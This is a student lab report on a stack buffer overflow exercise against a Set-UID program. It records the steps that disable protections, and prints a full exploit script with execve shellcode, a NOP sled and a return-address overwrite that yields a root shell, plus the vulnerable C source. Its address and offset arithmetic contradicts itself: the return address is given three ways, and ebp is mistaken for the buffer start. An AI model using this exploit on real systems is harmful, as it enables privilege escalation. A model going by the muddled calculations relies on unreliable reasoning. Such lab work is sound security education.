

# Work from Week 5

## Task 1

- Disabled address randomization, so that the addresses of the variables don't change in each execution of the program.
- Changed shell linked to /bin/sh, so that the shell executed allows for Set-UID program attacks.
- Using the Makefile, we compiled and ran the program (call_shellcode.c).
- Both programs (32 bit and 64 bit) gaved us access to the shell.


## Task 2

- Using the Makefile, we compiled and ran the program (stack.c).
- Checked the permissions of the resulting programs, confirming the Set-UID bit. 


## Task 3

- We started by creating a file called "badfile".
- Then we opened the debug file of stack-L1 (stack-L1-dbg).


- Then we ran some commands like "b bof", "next", "p $ebp", "p &buffer", etc. We ended up receiving the following values:
    - ebp -> 0xffffca88
    - buffer -> 0xffffca1c


- Finally we changed the exploit.py file:
    - Start is equal to 490 because the buffer has a size of 517 bytes and our shellcode has a size of 27 bytes. The shellcode is at the end of the shellcode, so 517 - 27 = 490.
    - The return is equal to 0xffffcbf6 because the buffer starts at 0xffffca88. 490 in hexadecimal is 0x1ea. 0xffffca88 + 0x1ea = 0xffffcc72. Then the return address is 0xffffcc72.
    - The "offset" refers to the specific location within a program's memory where we must insert a return address that points to our shellcode. To identify this location, we need to consider a few factors. First, we know that the return address we want to change is located immediately after the Extended Base Pointer (ebp), which typically occupies 4 bytes of memory.
    - To find the offset, we perform a simple calculation. We subtract the memory address of ebp (0xffffca88) from the memory address of the buffer (0xffffca1c). This subtraction tells us that ebp is located 108 bytes after the beginning of the buffer. Then, we add the size of ebp (which is 4 bytes) to this result, giving us an offset of 112 bytes from the start of the buffer. This offset is the precise location where we need to modify the return address.
``````
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xFFFFCBF6        # Change this number 0xffffca0c(buffer) + 0x1ea(490)
offset = 112              # Change this number to 0x6c + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
``````
- Finally we can run the exploit and then run stack-L1 and get access to the rootshell.



## Task 4

- After we changed the buffer size from 100 to 200 there was no changes. We still have access to the rootshell.

``````
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 200  <-----------
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem
    strcpy(buffer, str);      

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size
// 1000 (approximately) between main's and bof's stack frames.
// The function itself does not do anything.
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
``````


